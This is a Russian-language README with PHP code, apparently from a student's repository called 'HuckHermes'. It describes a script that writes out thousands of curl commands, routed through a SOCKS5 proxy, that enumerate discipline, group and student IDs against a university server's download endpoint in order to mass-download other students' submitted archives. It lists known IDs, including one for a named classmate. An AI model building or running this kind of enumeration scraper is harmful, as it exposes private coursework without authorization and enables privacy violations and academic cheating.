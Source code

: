 # HuckHermes
TODO:
Алгоритм, убирающий ложные архивы. Найти все предметы. Желательно составить белый список дисциплин. Можно список людей.(Открывать ворд, искать первую строку после "Выполнил:" и ставить в ассоциацию?(


Как работает: запускается алгорит, который создаёт txt\bat файл с запросами к серверу.
Редактировать алгоритм в prog.php
Файлы заранее создаётся в директории с .php файлами. Названия должны совпадать. Созданный батник желательно запускать в отдельной папке. txt переименовать в bat.
--socks5 127.0.0.1:9090 - прокси. Выбираем свой порт. Если подключаетесь с общаги, возможно не потребуется.

Запускаем jskript
"Запустить"
Перебираем наши значения.




                                    Что известно:
Группы:(возможно, не влияют на запрос)
176 - 12001801
177 - 12001802

Предметы:
47 - параллельное программирование
46- веб 2 семестр
204 - Базы Данных
43 - веб 1 семестр

Студенты:
2400- 01 группа
2433 - Я
2430 - ДОВЛЕТ


ОСНОВНОЙ АЛГОРИТМ:
________________________________________________________________________________________________________________________________
 $file = 'people.txt';
      $current = file_get_contents($file);
      $current.="Mkdir file\n";
     for ($Disc=40; $Disc <50 ; $Disc++) { 
        for ($Group=176; $Group < 178; $Group++) { 
            for ($Student=2400; $Student <2500 ; $Student++) { 
               // $current = file_get_contents($file);
                for ($Count=0; $Count <5 ; $Count++) { 
                    for ($Type=0; $Type <10 ; $Type++) { 
                        for ($num=0; $num <20 ; $num++) { 
                           // $current.="Mkdir ";
                            $current .= "curl -o X:/XAMPP/htdocs/HackerMan/files/file/D".$Disc."G".$Group."S".$Student."C".$Count."T".$Type."N".$num.".zip --socks5 127.0.0.1:9090  172.23.64.64:8080//Downloader?\"idDiscipline=".$Disc."&idGroup=".$Group."&idStudent=".$Student."&Count=".$Count."&type=".$Type."&num=".$num."\"\n";
                        }
                    }
                }
               // file_put_contents($file, $current);
            }
        }
     }
     $current .="pause";
     file_put_contents($file, $current); 
     
     __________________________________________________________________________________________________________________________
